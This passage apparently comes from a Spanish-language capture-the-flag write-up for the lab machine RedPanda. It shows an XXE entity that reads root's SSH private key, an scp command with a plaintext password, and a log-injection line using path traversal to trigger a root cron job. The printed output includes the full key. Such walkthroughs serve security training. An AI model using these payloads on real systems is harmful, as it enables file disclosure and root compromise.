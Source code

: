 Con la capacidad de leer archivos como root, podría simplemente leer la bandera, pero con el objetivo de obtener un shell, intentaré leer la clave SSH de root. Actualizaré el XXE para apuntar al nombre de clave predeterminado:

```
...[snip]...
<!DOCTYPE root [
<!ENTITY foo SYSTEM 'file:///root/.ssh/id_rsa'>]>
...[snip]...
```
Copia ese archivo en RedPanda:

```
jorge@hacky$ sshpass -p RedPandazRule scp 0xdf_creds.xml woodenk@10.10.11.170:/tmp/
```

Y inyecta otro log:

```
woodenk@redpanda:/opt/panda_search$ echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> redpanda.log

```

Me aseguraré de que el JPG todavía esté en su lugar y no haya sido limpiado también.
Cuando el cron se ejecute la próxima vez, la clave estará allí:

```xml
woodenk@redpanda:/opt/panda_search$ cat /tmp/0xdf_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root>
<credits>
  <author>damian</author>
  <image>
    <uri>/img/angy.jpg</uri>
    <views>1</views>
    <root>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</root>
  </image>
  <image>
    <uri>/img/shy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/crafty.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/peter.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>1</totalviews>
</credits>
```
